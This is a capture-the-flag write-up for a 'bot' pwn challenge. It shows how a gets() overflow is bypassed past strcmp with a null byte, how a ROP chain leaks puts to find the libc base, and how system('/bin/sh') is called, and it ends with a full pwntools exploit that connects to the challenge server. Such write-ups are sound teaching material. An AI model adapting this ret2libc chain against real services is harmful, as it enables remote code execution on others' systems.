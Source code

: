 ```yaml
---
title: "Bot (pwn easy)"
date: 2023-03-05T02:53:20-08:00
summary: "Intermediate ret2libc challenge solved by writing a rop chain to get a shell"
tags: ["pwn", "pwntools", "ret2libc", "rop", "ropchain"]
---
```


Classic ret2libc challenge.
There is no obvious shortcut, so we might need to write a ropchain.
<!-- more -->

We get the bot executable, libc, ld, Dockerfile and the bot.c code.
{{%attachments title="Related files" /%}}

From the c code we can see that `gets` is used to take our input, so our first step should be to get rip control.
For this we need to overwrite the return pointer of main, but the first tricky part will be to do that while actually reaching the return instruction of main. This is because, as we can see in the code below, if our input doesnt match "please please please give me the flag", we will enter the else of the first if, and the program will exit without returning from main.

```c
if (strcmp(input, "give me the flag") == 0) {
    puts("lol no");
  } else if (strcmp(input, "please give me the flag") == 0) {
    puts("no");
  } else if (strcmp(input, "help, i have no idea how to solve this") == 0) {
    puts("L");
  } else if (strcmp(input, "may i have the flag?") == 0) {
    puts("not with that attitude");
  } else if (strcmp(input, "please please please give me the flag") == 0) {
    puts("i'll consider it");
    sleep(15);
    if (give_flag) {
      puts("ok here's your flag");
      system("cat flag.txt");
    } else {
      puts("no");
    }
  } else {
    puts("sorry, i didn't understand your question");
    exit(1);
  }
```

Fortunately, because strcmp stops comparing at null bytes, but gets doesnt stop recieving input at null bytes we can add a null  byte after our initial string, and then keep sending input to reach the return pointer of main. We would then need to send the correct amounts of bytes to control the instruction pointer. We can find the correct offset with the following code and gdb.

```py
payload = b"please please please give me the flag"
payload += b"\x00" 
payload += b"A"*4

p.sendline(payload)
```
![stack at the end of main](./images/gdb1.png "stack at the end of main")

After setting a breakpoint right before the return of main, continuing and inspecting the stack where our input is stored, we can see that our A's end at **0x7ffe176ee3aa**. Now we just need to locate the return pointer of main. Pwndbg makes this very easy for us by showing us the address of the next instruction after main (**0x7f9bd98e7d0a**), so then we just need to find that address on the stack and subtract where our A's ended.

![return pointer of main](./images/gdb2.png "return pointer of main")
![calculating offset](./images/gdb3.png "calculating offset")

Since the result was 30 and we have already sent 4 A's we change our python code to send a total of 34 A's, which should give us control of the instruction pointer. Now we need to leak a libc address to find the base and use that to call system to pop a shell. We choose to leak the address of puts as we know from the c code that it is being used in the program.

To make our debugging easier we use pwninit to link our executable with the given libraries and create a solve.py template for us. We wish to use puts to print the address of puts in libc. For that to happen we need the RIP to point at a pop rdi instruction, then the address of puts in the GOT and the address of puts in the PLT. We find a `pop rdi; ret` instruction at 0x40133b with ropper, and use the pwn library for the rest. Our payload now looks like this:

```py
pop_rdi_ret = 0x40133b

puts_got = exe.got["puts"]
log.info("puts in got: " + hex(puts_got))
puts_plt = exe.plt["puts"]

payload = b"please please please give me the flag"
payload += b"\x00" # string terminate for strcmp
payload += b"A"*34 # offset after initial string
payload += p64(pop_rdi_ret)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(exe.sym["main"])
```

We call main at the end, so we will be asked for input again and can send a payload with system("/bin/sh"). This first payload leaks the address of puts in libc, which, since we know the libc version, allows us to calculate and store the base address of libc. We also decide to log the address of puts in libc as a sanity check:

```py
recieved = p.recvline().strip()
leak = u64(recieved.ljust(8, b"\x00"))
log.info("Leaked libc address, puts: "+ str(hex(leak)))

libc.address = leak - libc.symbols["puts"] # save libc base
```
![libc leak](./images/leak.png "libc leak")

Great, it worked! Now the remaining part is quite simple. We do the same thing as with the first payload, but this time we find an instance of "/bin/sh" in the libc and places that on the stack as our argument. Then we call system from libc, which we can do because we already stored the libc base. Finally we finish with exit to keep the program happy.

```py
libc_system = libc.sym["system"]
binsh = next(libc.search(b"/bin/sh"))
libc_exit = libc.sym["exit"]

log.info("binsh: "+ str(hex(binsh)))
log.info("system: "+ str(hex(libc_system)))
log.info("exit: "+ str(hex(libc_exit)))

second_payload = b"please please please give me the flag"
second_payload += b"\x00" 
second_payload += b"A"*34 
second_payload += p64(pop_rdi_ret)
second_payload += p64(binsh)
second_payload += p64(libc_system)
second_payload += p64(libc_exit) # gracefully :)
```

The above payload works just as intended and we successfully pop a shell! :)<br>
This was my first writeup, I hope you enjoyed and maybe learned something.

![shell popped](./images/shell.png "shell popped")

## Full exploit:
```py
from pwn import *

exe = ELF("./bot_patched")
libc = ELF("./libc-2.31.so")
ld = ELF("./ld-2.31.so")

context.binary = exe

#p = process("./bot_patched")
#gdb.attach(p)

p = remote("lac.tf", 31180)

pop_rdi_ret = 0x40133b

puts_got = exe.got["puts"]
log.info("puts in got: " + hex(puts_got))
puts_plt = exe.plt["puts"]

payload = b"please please please give me the flag"
payload += b"\x00" # string terminate for strcmp
payload += b"A"*34 # offset after initial string
payload += p64(pop_rdi_ret)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(exe.sym["main"])

p.recvline()
p.sendline(payload)

p.recvline()
p.recvline()
recieved = p.recvline().strip()
leak = u64(recieved.ljust(8, b"\x00"))
log.info("Leaked libc address, puts: "+ str(hex(leak)))

libc.address = leak - libc.symbols["puts"] # save libc base

p.recvline()

libc_system = libc.sym["system"]
binsh = next(libc.search(b"/bin/sh"))
libc_exit = libc.sym["exit"]

log.info("binsh: "+ str(hex(binsh)))
log.info("system: "+ str(hex(libc_system)))
log.info("exit: "+ str(hex(libc_exit)))

second_payload = b"please please please give me the flag"
second_payload += b"\x00" 
second_payload += b"A"*34 
second_payload += p64(pop_rdi_ret)
second_payload += p64(binsh)
second_payload += p64(libc_system)
second_payload += p64(libc_exit) # gracefully :)

p.sendline(second_payload)

p.interactive()
```
